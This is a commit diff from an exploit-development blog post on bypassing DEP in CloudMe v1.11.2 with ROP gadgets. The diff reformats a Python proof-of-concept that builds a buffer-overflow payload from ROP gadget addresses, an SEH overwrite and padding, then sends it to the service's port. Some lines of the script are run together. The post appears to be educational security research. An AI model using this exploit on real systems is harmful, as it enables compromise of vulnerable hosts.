

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 900 px high, scrolled down 31737 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
CloudMe v1.11.2 DEP bypass using ROP gadgets

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -972,9 +972,19 @@
 
 In order to see this in practice lets create the following PoC script
 
-```
-import struct import socket
-import sys target = "127.0.0.1" payload\_size = 1604 junk1 = "\x41" \* payload\_size ######################################################################## # Get kernel32 address from the stack # 762a20d8 kernel32!VirtualProtect rop = struct.pack('L',0x699012c9) # POP EBP # RETN [Qt5Network.dll] rop+= struct.pack('L',0x0385FF88) # Offset rop+= struct.pack('L',0x68a9559e) # XCHG EAX,EBP # RETN [Qt5Core.dll] rop+= struct.pack('L',0x68ae4fe3) # POP ECX # RETN [Qt5Core.dll] rop+= struct.pack('L',0x0362fffc) # Offset rop+= struct.pack('L',0x68ad422b) # SUB EAX,ECX # RETN [Qt5Core.dll] rop+= struct.pack('L',0x68ae8a22) # MOV EAX,DWORD PTR [EAX] # RETN [Qt5Core.dll] ######################################################################## buf = "\x42" \* 351 nops = "\x90" \* 16 junk2 = "\x43"\*(2236 - len(rop) - len(nops) - len(buf) - len(junk1)) seh = struct.pack('L',0x6998fb2e) # ADD ESP,76C # POP EBX # POP ESI # POP EDI # POP EBP # RETN payload = junk1 + rop + nops + buf + junk2 + seh try: s=socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) s.connect((target,8888)) s.send(payload) except Exception as e: print(sys.exc\_value)
+```python
+import struct
+import socket
+import sys
+
+target = "127.0.0.1"
+payload_size = 1604 junk1 = "\x41" * payload_size
+
+########################################################################
+# Get kernel32 address from the stack
+# 762a20d8 kernel32!VirtualProtect
+
+rop = struct.pack('L',0x699012c9) # POP EBP # RETN [Qt5Network.dll] rop+= struct.pack('L',0x0385FF88) # Offset rop+= struct.pack('L',0x68a9559e) # XCHG EAX,EBP # RETN [Qt5Core.dll] rop+= struct.pack('L',0x68ae4fe3) # POP ECX # RETN [Qt5Core.dll] rop+= struct.pack('L',0x0362fffc) # Offset rop+= struct.pack('L',0x68ad422b) # SUB EAX,ECX # RETN [Qt5Core.dll] rop+= struct.pack('L',0x68ae8a22) # MOV EAX,DWORD PTR [EAX] # RETN [Qt5Core.dll] ######################################################################## buf = "\x42" \* 351 nops = "\x90" \* 16 junk2 = "\x43"\*(2236 - len(rop) - len(nops) - len(buf) - len(junk1)) seh = struct.pack('L',0x6998fb2e) # ADD ESP,76C # POP EBX # POP ESI # POP EDI # POP EBP # RETN payload = junk1 + rop + nops + buf + junk2 + seh try: s=socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) s.connect((target,8888)) s.send(payload) except Exception as e: print(sys.exc\_value)
 ```
 
 Below is the debugging session with **WinDBG** which shows the ROP gadgets in action:
````
